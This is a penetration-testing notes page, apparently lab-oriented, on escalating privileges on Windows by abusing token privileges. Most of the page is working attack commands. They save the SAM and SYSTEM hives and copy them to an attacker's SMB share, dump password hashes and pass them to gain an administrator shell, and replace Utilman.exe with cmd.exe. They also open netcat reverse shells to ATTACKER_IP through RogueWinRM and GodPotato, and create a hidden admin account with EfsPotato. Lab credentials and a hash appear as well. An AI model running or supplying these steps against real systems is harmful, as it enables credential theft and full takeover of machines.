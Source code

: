 # whoami /priv

```powershell
> whoami /priv
```

For a full list of privileges on Windows systems, refer [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). Attackers generally focus on those that enable system escalation. A detailed list of exploitable privileges is available on the [Priv2Admin GitHub project](https://github.com/gtworek/Priv2Admin).

## SeBackupPrivilege&#x20;

<figure><img src="../../../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

This privilege allows the user to read all the files in the system.

Let's create a Temp directory and move into it.

```powershell
mkdir C:\Temp
cd C:\Temp
```

Exploit this privilege to read SAM and SYSTEM file via query.

> The **`SAM` (Security Account Manager)** hive contains local user account and group membership information, including their hashed passwords.&#x20;
>
> The **`SYSTEM`** hive contains system-wide configuration settings, such as the system boot key required to decrypt the password hashes stored in SAM

We will use the reg save command to perform a command in the registry, specify the location of the hive, and save it to a file in the current directory with the appropriate name.

```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now download the files to attacker machine

{% code title="evil-winrm shell" %}
```powershell
> download sam
> download system
```
{% endcode %}

<details>

<summary>SMB Server</summary>

{% code overflow="wrap" %}
```bash
impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share
```
{% endcode %}

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files.

```bash
C:\> copy c:\Temp\sam \\ATTACKER_IP\public\
C:\> copy c:\Temp\system \\ATTACKER_IP\public\
```



</details>

Now we can use `pypykatz` to read the content or we can use these files to dump hash with the tool `impacket-secretsdump`

<details>

<summary>Get files content with pypykatz</summary>

In kali these files is unreadable, but we can extract the hive secrets from SAM and SYSTEM file using pypykatz.

> **pypykatz**
>
> Mimikatz implementation in pure Python.&#x20;
>
> [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz registry --sam sam system -o registry.dump
# registry: Get secrets from registry files
# --sam SAM: path to the SAM registry hive
```

Now in the file `registry.dump` we have this:

<figure><img src="../../../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

With hash of these account we can try to perform a PtH like this:

```bash
evil-winrm -i <IP> -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

</details>

<details>

<summary>Dump hashes with impacket</summary>

```bash
impacket-secretsdump -sam sam -system system LOCAL
```

Use psexec to use the dumped credentials and take access to the target machine as administrator

{% code overflow="wrap" %}
```bash
impacket-psexec -hashes LM:NT administrator@MACHINE_IP
```
{% endcode %}

</details>



## SeTakeOwnership

The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.

The standard method to use this privilege is:

1. Start a CMD as administrator
2. Search a Windows Program that is run with SYSTEM privileges. (Utilman, ...)
3. Taking ownership of the legitimate binary with the following command

```powershell
takeown /f C:\Windows\System32\Utilman.exe
```

As a file owner, you don't automatically have full control over it. However, you can grant yourself the necessary permissions. To gain full rights over the legitimate binary chose, use this command:

```powershell
icacls C:\Windows\System32\Utilman.exe /grant $USER:F
```

4. Replace the original binary for any payload we like.

```bash
copy cmd.exe utilman.exe
```



## SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

To use this privileges to elevate our privilege we can use these programs:

### RogueWinRM

{% embed url="https://github.com/antonioCoco/RogueWinRM" %}

```bash
# attacker machine
nc -lvp 4444

# target machine
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4444"
```

&#x20;

### JuicyPotatoNG

{% embed url="https://github.com/antonioCoco/JuicyPotatoNG" %}



### GodPotato

{% embed url="https://github.com/BeichenDream/GodPotato" %}

Download the executable from the link above, and transfer it to a target machine.

<pre class="language-powershell"><code class="lang-powershell"># target machine
<strong>cd C:\ProgramData
</strong><strong>curl http://ATT_IP/godpotato.exe -o godpotato.exe
</strong><strong>
</strong><strong># attack machine 
</strong><strong>nc -lvpn 4444
</strong><strong>
</strong><strong># target machine
</strong><strong>.\godpotato.exe -cmd "cmd /c powershell -e REV_SHELL_PAYLOAD"
</strong></code></pre>



### EFS Potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code title="Attacker machine" overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

{% code title="Victim Machine" overflow="wrap" %}
```powershell
curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

EfsPotato.exe whoami

# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add && net localgroup Administrators Antoadmin /add"
```
{% endcode %}





